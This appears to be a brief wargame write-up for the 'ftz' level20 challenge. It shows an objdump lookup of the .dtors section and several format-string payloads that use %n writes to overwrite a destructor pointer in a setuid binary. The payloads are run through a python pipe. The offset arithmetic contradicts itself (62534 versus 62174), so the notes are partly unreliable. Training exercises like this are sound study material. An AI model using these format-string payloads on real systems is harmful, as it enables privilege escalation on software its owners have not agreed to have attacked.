 ```
[level20@ftz level20]$ objdump -h attackme |grep .dtors
 18 .dtors        00000008  08049594  08049594  00000594  2**2
```


### 4. exploit code
1. base exploit code
egg : 0xbffff46e
bfff : 49151
f46e : 62574
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62574c%n%49151c%n

2.
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x
4 + 4+ 4+ 4 +8 + 8+ 8  = 16 + 24 = 40
62574-40 = 62534
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62174c%n%49151c%n

3.
1bfff = 114687 - 62574 = 52113
```
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62174c%n%52113c%n


(python -c 'print "AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62534c%n%52113c%n"';cat) | /home/level20/attackme

AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62534c%n%52113c%n
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62085c%n%52562c%n
```
